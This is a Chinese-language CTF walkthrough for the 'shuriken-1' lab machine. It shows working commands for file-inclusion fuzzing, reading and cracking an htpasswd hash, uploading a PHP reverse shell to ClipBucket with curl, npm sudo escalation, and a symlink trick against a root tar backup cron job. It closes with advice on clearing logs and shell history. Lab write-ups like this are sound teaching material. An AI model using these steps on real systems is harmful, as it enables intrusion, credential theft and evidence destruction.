


# 前言

靶机：`shuriken-1`，ip地址`192.168.1.115`

攻击：`kali`，ip地址`192.168.1.16`

都采用虚拟机方式，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`扫描


# 信息收集

## 使用nmap扫描端口


## 网站信息探测

访问80端口信息，看到是一个类似于公司的首页


查看页面源代码，发现有目录型构造，尝试使用工具进行目录爆破

使用`gobuster、ffuf、dirsearch、dirb、dirbuster`等工具


发现页面以及目录，不过这里结果也可以确定网站的脚本语言为`php`，不过这里在`kali`中使用`firefox`访问页面有点卡，可能是我虚拟机的配置问题，所以下面的浏览器访问在物理机的`chrome`浏览器访问

访问`secret`目录，发现一个图片文件


把该图片下载到`kali`中，可能该图片有隐藏信息，可以直接通过浏览器下载，或者复制图片的下载链接，使用`wget`或者`curl`工具下载

访问`login.html`界面，确定为登录界面


不过查看页面源代码后，发现可能不存在登录操作，这里只是简单分析，并不确定，可能是通过`js`进行处理的，并尝试登录发现没什么内容，甚至错误都没有报，页面源代码中像是直接指定了输出的是固定语句


使用`whatweb`尝试获取一些信息，这里的`bootstrap`是一种前端框架


尝试对下载的图片进行操作，使用`binwalk`发现确实有压缩数据，并且是`best`形式，但是解压时出现错误，说明可能这个图片中无信息，该图片的界面就是一张`javascript`，可能提示还是从`js`下手


访问目录`js`，发现两个文件，一个个文件进行查看，访问第一个js文件，发现代码有些不是很好辨认，也就是格式问题，可以在网上找在线工具进行美化排版，或者自己使用本地插件等都可以


我这里使用在线网站`https://www.toolhelper.cn/Format/JavaScript`


# 漏洞寻找

发现一个域名`http://broadcast.shuriken.local`，尝试加入解析中`/etc/hosts`，再次访问，发现出现登录弹窗


这里并不知道用户名和密码，所以继续分析`js`代码，其中可能有信息，访问另一个`js`文件，在其中发现了一个`php`文件的传参



也是先绑定域名，不过我这里操作过，其域名就是其ip本身，是可以直接访问的，并且前面在扫描目录时，也确定了有`index.php`

这里可以尝试使用工具`ffuf`定点测试有无文件包含或者路径遍历等漏洞


```shell
ffuf -c -w /usr/share/wordlists/wfuzz/Injections/All_attack.txt -u http://shuriken.local/index.php?referer=FUZZ -fs 6021

#FUZZ就是爆破位置
#这里的-fs是把原本的界面内容大小过滤，可以在不爆破前使用该命令查看
```

结果发现有几个可用的，测试发现，在查看页面源代码时，能够显示



那么这里可以看到页面源代码中确实有内容，说明存在文件包含或者路径遍历


测试发现，果然无权查看`/etc/shadow`，那么这里该怎么继续推进呢，之前收集信息的时候，确定中间件为`apache2`，那么尝试访问其一个配置文件，如果可以访问，可能就能够获取到认证的用户名和密码，就可以登录之前的页面

一般目录在`/etc/apache2/.htpasswd`，访问后发现确实有


应该这个是用户名`developers`，这个是密码`$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0`，不过密码的形式像是进行了`hash`加密

把这个进行复制，然后保存到一个文件中，使用`john`进行破解，解密出密码为`9972761drmfsls`


使用这个用户名`developers`和破解出的密码`9972761drmfsls`登录之前的`broadcast.shuriken.local`弹窗登录


使用`whatweb`对该网站再次进行测试，不过因为需要认证的关系，所以需要加参数

```shell
whatweb http://broadcast.shuriken.local --user developers:9972761drmfsls
```


发现的这个`ClipBucket`，经过搜索，发现是一种平台，可以说是网站平台，也就可以理解为一种`cms`

当然这里还可以对这个域名继续进行目录爆破


不过呢，这里说白了，端口开放没有给`ssh`服务，并且这是一种`cms`，如果通过目录扫描出的界面去寻找漏洞，并且是一个没有接触过的`cms`的话，无疑是需要耗费大量时间，并且如果该`cms`开源还好些，如若未开源，说不定将是从寻找一个`cms`的0day开始了。

# 漏洞利用

我这里使用`searchsploit`搜索有无版本漏洞，这里找到相关的，所说是小于4.0版本，不过这里还是测试一下


查看该文件，说是在4.0版本的4902已经修复，不过这个毕竟是靶机，很可能作者把该修复又去掉了

三种用法，命令执行，文件上传，sql注入，都是未认证的情况，不过确实，我们这里并未登录到平台中

这里选择一种，因为这里还是要获取一个终端的，所以还是文件上传以获取反弹shell


根据用法，构造语句，这里还是采用`kali`自带的一个`php`反弹脚本，在`/usr/share/webshells/php/php-reserve-shell.php`，只需要修改其中的`ip`和端口为监听地址的即可，这里的监听就是`kali`的地址

构造语句

```shell
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.shuriken.local/actions/beats_uploader.php" --basic --user "developers:9972761drmfsls"

#这里我为了稳妥起见，把php-reverse-shell.php移动到当前终端所在目录下
#第一个-F为脚本反弹shell文件
#第二个保持不动
#第三个可以自己修改，任意名称
#后面的链接地址，用法中提供了两个，自行选择
#后的--basic --user 是因为这个网址有一个基本的认证才能访问，所以需要进行这一步，才能访问
```


记住执行后的一串白色字符，给出是否上传成功，上传的路径以及文件名等

```shell
creating file{"success":"yes","file_name":"17350579738c4f6b","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}                                                                         
```

这时候通过给出的信息，访问文件`http://broadcast.shuriken.local/actions/CB_BEATS_UPLOAD_DIR/17350579738c4f6b.php`

不过先在`kali`中开启监听`nc -lvvp 1234`，这个1234端口是自己设置的，就是上面说到的`kali`自带的反弹脚本


然后使用命令`dpkg`测试有无安装`python`，测试有，使用`python`获取交互式界面

```
dpkg -l | grep python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 靶机内信息收集

首先查看有哪些用户

```shell
cat /etc/passwd | grep "/bin/bash"
ls /home
```

发现只有一个用户`server-management`

使用`find`寻找具有SUID权限文件，发现有`sudo`，测试发现`sudo -l`不需要密码验证


# 提权

## 提权至普通用户

如果不知道怎么使用，可以借助网址`gtfobins.github.io`搜索


用法如下

```shell
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo -u server-management npm -C $TF --unsafe-perm i
```

但是这里直接这样使用，是提权到`root`的，所以需要改动

```shell
cd /tmp
touch package.json
echo '{"scripts": {"preinstall": "/bin/bash"}}' > package.json
sudo -u server-management npm run preinstall
```

提权成功，到其家目录下，可以看到`user.txt`


继续使用`sudo -l`发现这里需要提供密码，但是不知道密码，所以只能继续收集，查看备份文件等操作，最终在查看定时任务时，发现信息`/etc/crontab`


可以看到是以`root`身份进行的定时任务执行，并且该文件不能修改，那么查看一下里面的内容，是把用户目录下的`Documents`目录下的所有文件进行备份，并且以主机名加时间命名


## 越权读取root用户文件

但是压缩后的文件，只有读权限，而且这里可以尝试软链接，当以`root`执行，这个软链接中的数据也就可以被压缩

```shell
ln -s /etc /home/server-management/Documents
```

为什么这里明知道压缩后的文件，只有读权限，还是要这样做呢，因为发现使用的命令`tar`其他人也可以使用，并且所有者是`root`，虽然是以当前用户执行，但是可以把压缩后的文件进行解压操作


查看是否备份完成，发现数据明显增大


把该压缩解压到指定的目录


可以看到关键的文件`shadow`用户为当前用户了


把这两个文件中的内容复制，然后粘贴到`kali`中，再使用`unshadow`进行整合，再使用`john`进行破解，不过这里的密码强度看来很高，很长时间没出，并且大希望没有


其实想想，为什么不把整个根目录做映射呢，即使有的是不可以获取的，但是已经把能获取的都获取了


但是这样反而没有获取到想要的，在靶机中，大部分最后的`flag`都是放在`/root`目录，那么单指定这个目录

```shell
ln -s /root /home/server-management/Documents
```


虽然最终没有获取到`root`权限的终端，但是算是越权访问文件了

# 痕迹清除

这里就略过，这个靶机打的有点懵，刚开始一直以为是图片，琢磨好久没效果才转换思路。

这里就大概知道清除什么就行了

1. 使用`npm`时的日志，放在用户家目录下`.npm`中
2. 使用`npm`提权时，在`/tmp`创建的脚本记得删除
3. 日志清理`/var/log`，这里主要清除`apache2`中的日志，以及一些常见的`auth.log、btmp、faillog、lastlog、wtmp`等
4. 清除命令历史记录，以及把软链接进行替换回原本的目录

重点是这里的备份是类似叠加备份，没有的会添加，但是不会覆盖，所有觉得这里备份是个问题，还不能清理

# 总结

该靶场考察内容

1. 信息收集，对于`js`代码中的信息进行关键寻找
2. 漏洞寻找，当知道`js`代码中含有类似的文件包含漏洞时，要知道怎么使用
3. 涉及到`apache2`的`http`基本认证，这个一般是在其配置文件`htpasswd`中含有该信息，一般是在`/etc/apache2`目录下，所有要配合文件包含漏洞进行寻找
4. 对于一些平台或者CMS漏洞要知道去寻找历史漏洞，并且有的可能因为自己的配置问题，虽然是官方发布的漏洞修复版本，但也可能还是有漏洞，所有可以通过`searchsploit`或者`msf`的框架，或者网上资源寻找
5. 对于`sudo`的提权方式太多，所以，文章中的网址，基本上包括了很多的提权方式，不记得可以查询
6. 对于定时任务的备份操作，当文件不能被修改或者顶替时，就可以根据实际情况，如这里的`tar`命令可以使用并成功解压，所以才能通过软链接的方式进行越权备份以及读取。不然这里可能确实可以备份，但是备份后，不能移动，不能解压，也是没有办法的。


